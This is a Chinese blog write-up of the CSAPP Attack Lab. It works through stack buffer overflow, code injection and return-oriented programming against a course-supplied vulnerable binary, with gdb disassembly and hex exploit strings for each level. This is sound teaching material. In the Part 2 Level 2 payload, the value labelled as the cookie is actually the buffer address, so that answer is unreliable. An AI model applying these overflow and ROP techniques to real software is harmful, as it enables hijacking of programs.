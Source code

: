 ```yaml
---
layout: post
title: "「CSAPP Lab」缓冲区溢出实验"
subtitle: "Attack Lab"
date: 2019-1-23
author: "ZingLix"
header-img: "img/post-36.jpg"
catalog: true
tags:
  - CSAPP-LAB
---
```


## 缓冲区溢出

缓冲区溢出是指类似于 `scanf` 的函数，输入到一个字符数组中并不会检查溢出，所以用户输入的代码会影响到字符数组以外的内存空间，溢出的那部分可能就会产生一些意想不到的结果。这个实验就是展现缓冲区溢出的结果。

## Part 1

如下是每次都会运行的函数，其中 `getbuf()` 是一个存在缓冲区溢出漏洞的函数，实验目标就是修改程序运行行为。

```
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

### Level 1

这个 Level 要求让程序运行 `getbuf` 后不返回至 `test()` 而是转而运行另一函数 `touch1()`。

先对这几个函数反汇编进行观察。

```
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

从中可以看到 `getbuf` 申请了 0x28 个字节的栈空间，那么从第 0x29 个字节开始就是返回地址。而我们输入四十个字符以后就会溢出，影响到返回地址的内容。所以我们只要输入的第 41 个字节开始是 `touch1` 的地址就可以让它返回时获得另一个函数的地址，从而跳转到我们所攻击的函数，从上面可以看到是 `0x4017c0`。

所以答案如下，前 40 个随意构造。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
C0 17 40
```

![](/img/in-post/CSAPP-Lab/3-1.png)

### Level 2

这回要做的是让程序能够执行 `touch2()` 并且还能够将 cookie 作为参数传递给它。

我们能够输入代码的地方就是缓冲区内的一部分，所以思路就是让 getbuf 返回时返回到我们输入的代码地址处，即缓冲区位置，代码负责准备参数然后返回到 `touch2()` 处。

```
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
=> 0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
(gdb) print (void *)$rsp
$3 = (void *) 0x5561dc78
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   ...
```

得到了缓冲区的位置 `0x5561dc78` 和 `touch2()` 的开始位置 `0x4017ec`，并且参数用 edi 传入。所以我们要注入的代码是

```
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi ;cookie值
   7:   68 ec 17 40 00          pushq  $0x4017ec        ;返回地址
   c:   c3                      retq
```

转换成二进制就得到了答案

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```

![](/img/in-post/CSAPP-Lab/3-2.png)

### Level 3

这一关的要求与上关类似，只是要求传递参数变为字符串。通过反汇编 `touch3` 可以看到参数依旧由 rdi 传递，所以思路就是手动先将 cookie 转成字符串放入我们输入的代码，然后计算出其地址，传入 rdi，之后与 Level 2 类似，通过压栈改变返回地址从而执行 `touch3`。

答案如下，其中最后一行即为 cookie 值的字符串形式。

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

![](/img/in-post/CSAPP-Lab/3-3.png)

## Part 2

第二部分比起第一部分采用了栈随机化等手段不再能执行栈上代码，所以之前的方法都会失效，但是溢出仍会导致问题。

```
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```

以这样一段代码为例，如果从每句代码中间开始运行，比如跳转到中间那么下一句会是 `48 89 c7`，这段代码意味着 `movq %rax, %rdi`。这部分代码存在于代码段所以一定能正常运行，所以通过改变返回地址到代码段中精心挑选的地方就仍能运行我们的攻击代码。

### Level 2

与上一部分的 Level 2 的目标一样，题目中给到我们的可用指令中能修改寄存器的只有 `movq` 和 `popq`，且只用两句。通过直接修改返回地址就可以跳转到 `touch2`，所以这两句目标是将返回值放入 rdi。然后我们能够修改的是栈段内容，所以思路很清楚，先 pop 到某一寄存器再 mov 到 rdi。

```
00000000004019a7 <addval_219>:
  4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:   c3

00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3
```

符合条件的是这样两个函数，`58 90 c3` 完成了 `popq %rax`，`48 89 c7 (90) c3` 完成了 `movq %rax, %rdi`。攻击代码也就显而易见了。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00   //返回至 popq 处
78 dc 61 55 00 00 00 00   //cookie 进栈等待 pop
c5 19 40 00 00 00 00 00   //返回至 movq 处
ec 17 40 00 00 00 00 00   //返回至 touch2 处
```

![](/img/in-post/CSAPP-Lab/3-4.png)

### Level 3

和上一部分的 Level 3 一样的要求，但是在指导中居然疯狂劝退。。。

说实话，这一部分真的恶心，还得自己去找对应的二进制，用好多个构造出一个目标代码，但是前面实验已经相当清晰的展现了整个缓冲区溢出攻击的过程，最后这个。。。看上去就很不是很想做了，感觉的确花的时间也并不能学到太多东西，所以接受劝退，等以后哪天兴起再填坑吧 :smirk:
